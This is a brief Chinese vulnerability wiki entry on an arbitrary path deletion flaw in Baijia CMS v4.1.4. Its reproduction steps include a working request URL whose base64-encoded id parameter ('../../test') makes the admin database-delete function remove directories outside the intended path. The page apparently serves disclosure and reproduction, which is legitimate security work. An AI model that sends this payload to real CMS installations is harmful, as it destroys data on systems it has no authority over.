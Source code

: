 百家cms v4.1.4 任意路径删除漏洞
===============================

一、漏洞简介
------------

二、漏洞影响
------------

百家cms v4.1.4

三、复现过程
------------

    # 需要后台权限
    # 只能删除路径
    http://www.0-sec.org/index.php?mod=site&act=manager&do=database&op=delete&id=Li4vLi4vdGVzdA==&beid=1

根目录下创建test文件夹，里面有内容为123的test.txt文件

![](/Users/aresx/Documents/VulWiki/.resource/百家cmsv4.1.4任意路径删除漏洞/media/rId24.png)

访问payload将参数转为base64并方位payload

![](/Users/aresx/Documents/VulWiki/.resource/百家cmsv4.1.4任意路径删除漏洞/media/rId25.png)

![](/Users/aresx/Documents/VulWiki/.resource/百家cmsv4.1.4任意路径删除漏洞/media/rId26.png)

查看文件夹，已被删除

![](/Users/aresx/Documents/VulWiki/.resource/百家cmsv4.1.4任意路径删除漏洞/media/rId27.png)

参考链接
--------

> https://xz.aliyun.com/t/7542
